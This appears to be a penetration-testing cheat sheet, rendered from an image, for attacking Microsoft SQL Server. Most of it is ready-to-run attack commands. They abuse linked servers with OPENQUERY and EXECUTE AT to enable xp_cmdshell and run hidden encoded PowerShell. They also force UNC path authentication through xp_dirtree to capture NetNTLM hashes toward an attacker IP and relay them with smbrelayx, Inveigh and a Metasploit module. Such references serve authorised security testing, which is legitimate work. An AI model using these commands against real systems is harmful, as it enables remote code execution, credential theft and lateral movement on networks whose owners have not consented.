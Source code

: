````
SELECT * FROM OPENQUERY("<SERVER>\<DB>", 'select @@servername');
SELECT * FROM OPENQUERY("<SERVER>\<DB>", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```
 
#### Example with double or tripple queries
```
SELECT * FROM OPENQUERY("sql-1.test.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')
SELECT * FROM OPENQUERY("sql-1.test.io", 'select * from openquery("sql01.test.local", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```

#### EXECUTE AT Enable xp_cmdshell
- RPC out needs to be enabled - this isn't default!
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT "<DB>"
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT "<DB>"
EXEC('exec master..xp_cmdshell ''whoami''') AT "<SERVER>\<DB>"
```
 
#### EXECUTE AT enable RPC Out
- Requires to be sysadmin on the SQL server, not sysadmin for the configured link!
- Enter Srvname from enumerating links
```
EXEC sp_serveroption
@server='<SERVER>\<DB>', @optname='rpc out', @optvalue='True'
```
 
### Privilege escalation Service Accounts
#### Shared service account
- If multiple SQL Servers share the same service account. Comprimising one server comprimises them all!
 
#### Check as what the server is running
```
Get-SQLInstanceDomain | Get-SQLServerInfo | Select-object Instance, ServiceAccount
```

#### UNC PATH INJECTION
- Public role has access to xp_dirtree and xp_fileexists to abuse UNC PATH INJECTION
- https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e
 
#### Capture NetNTLM password hash
```
.\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
EXEC xp_dirtree '\\<IP>\pwn', 1, 1
```

```
sudo responder -I eth0
Get-SQLInstanceDomain | Invoke-SQLUncPathInjection
```
 
#### Capture NetNTLM password hash and relay it example
```
import-module .\PowerUpSQL.ps1
Import-Module \Scripts\3rdparty\Inveigh.ps1
Import-Module \Scripts\pending\Get-SQLServiceAccountPwHashes.ps1
Get-SQLServiceAccountPwHashes -Verbose -TimeOut 20 -CaptureIp <ATTACKER IP>
 

python smbrelayx.py -h <SQL SERVER IP> -c 'powershell empire launcher'
msf > use auxiliary/admin/mssql/mssql_ntlm_stealer
set SMBPROXY <ATTACKER IP>
set RHOST <TARGET IP>
````
